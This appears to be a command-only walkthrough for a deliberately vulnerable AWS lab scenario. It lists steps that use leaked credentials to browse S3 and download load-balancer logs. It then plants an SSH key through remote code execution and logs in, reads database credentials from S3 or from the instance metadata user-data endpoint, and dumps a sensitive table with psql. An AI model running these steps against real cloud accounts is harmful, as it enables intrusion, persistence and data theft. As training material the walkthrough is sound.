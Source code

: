 `aws configure --profile Lara`

`aws s3 ls --profile Lara`

`aws s3 ls s3://<bucket> --recursive --profile Lara`

`aws s3 cp s3://<bucket>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara`

`cat 555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log`

`aws elbv2 describe-load-balancers --profile Lara`

`ssh-keygen -t ed25519` (An ed25519 key pair is necessary here because using an RSA public key is too long and gets truncated in the RCE)

`echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys`

`curl ifconfig.me`

`ssh -i private_key ubuntu@public.ip.of.ec2`

# BRANCH A:

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`

`\dt`

`select * from sensitive_information;`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`
